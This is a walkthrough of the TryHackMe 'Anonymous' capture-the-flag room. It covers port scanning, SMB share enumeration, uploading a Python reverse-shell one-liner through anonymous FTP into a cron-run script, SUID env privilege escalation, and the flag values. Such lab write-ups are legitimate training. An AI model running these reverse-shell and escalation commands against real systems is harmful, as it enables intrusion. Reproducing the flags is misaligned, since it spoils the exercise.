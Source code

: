 ```yaml
---
description: https://tryhackme.com/room/anonymous
---
```


# Anonymous

## Task 1 Pwn

### Enumerate the machine.  How many ports are open?

```
nmap -sC -sV -T5 -p1-65535 10.10.17.122
```

![](<../.gitbook/assets/image (251).png>)

{% hint style="success" %}
4
{% endhint %}

### What service is running on port 21?

![](<../.gitbook/assets/image (252).png>)

{% hint style="success" %}
ftp
{% endhint %}

### What service is running on ports 139 and 445?

![](<../.gitbook/assets/image (253).png>)

{% hint style="success" %}
smb
{% endhint %}

### There's a share on the user's computer.  What's it called?

```
enum4linux -S 10.10.17.122
```

![](<../.gitbook/assets/image (254).png>)

{% hint style="success" %}

{% endhint %}

### user.txt&#x20;

![](<../.gitbook/assets/image (255).png>)

![](<../.gitbook/assets/image (258).png>)

![](<../.gitbook/assets/image (250).png>)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

```
nc -nvlp 4444

mget *
ls -all
vi clean.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.4.204",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

ftp 10.10.178.0
anonymous
password
cd scripts
mput clean.sh
y
```

![](<../.gitbook/assets/image (256).png>)

![](<../.gitbook/assets/image (257).png>)

{% hint style="success" %}
90d6f992585815ff991e68748c414740
{% endhint %}

### root.txt

```
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```

env /bin/sh -p
cat /root/root.txt
```

![](<../.gitbook/assets/image (259).png>)

{% hint style="success" %}
4d930091c31a622a7ed10f27999af363
{% endhint %}
